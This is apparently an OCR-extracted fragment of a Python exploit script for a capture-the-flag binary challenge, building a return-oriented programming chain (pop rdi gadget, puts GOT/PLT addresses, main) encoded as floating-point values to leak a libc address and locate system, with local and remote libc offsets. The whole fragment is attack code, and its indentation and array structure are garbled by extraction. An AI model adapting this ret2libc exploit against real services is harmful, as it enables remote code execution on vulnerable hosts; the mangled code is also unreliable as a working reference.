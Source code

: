 ```
0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0, 
#1,2,3,0xcd,0xee,0xff,0x5,6,7,8,9,2,2,2,2,2,
0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1]
for i in range(len(val_list)):
arrays[14 * 16 + 5 + i] = val_list[i]
io.read_until(" : ")
io.writeline(str(16))
io.read_until(" : ")
io.writeline(str(16))
io.read_until(" :")
payload = ""
for item in arrays:
payload += str(item) + ","
io.writeline(payload[:-1])
io.read_until("This is your result")
io.read_until("0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,nn")
return 
def pwn(io):
#offset info
if is_local:
#local
offset_puts                = 0x6f690
offset_system = 0x45390
else:
#remote
offset_system = 0x45800
offset_puts                = 0x70a90
p_rdi_ret_val = -2.07582817451185170402836984431807e-317
puts_got_val = -3.11447916067854977526319411883167e-317
puts_plt_val = -2.07357375296987809604729216091621e-317
#puts_got -8
puts_got_8_val = -3.11447520815338304529084070628132e-317
main_addr_val = -2.07424074159176377888193052878658e-317
show_info_val = -2.07415428010374156073669962924783e-317
get_buff_val = -2.07396357076444683957064747369378e-317
val_list = []
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_val)
val_list.append(puts_plt_val)
val_list.append(main_addr_val)
"""
p_rdi_ret = 0x0000000000401c33
puts_plt                   = 0x0000000000400a60
p_rsi_r15_ret = 0x0000000000401c31
get_buff_addr = 0x400D75
puts_got = 0x0000000000603020
"""
pwn_with_array(io, val_list)
data = io.read(6)+"x00"*2
print repr(data)
```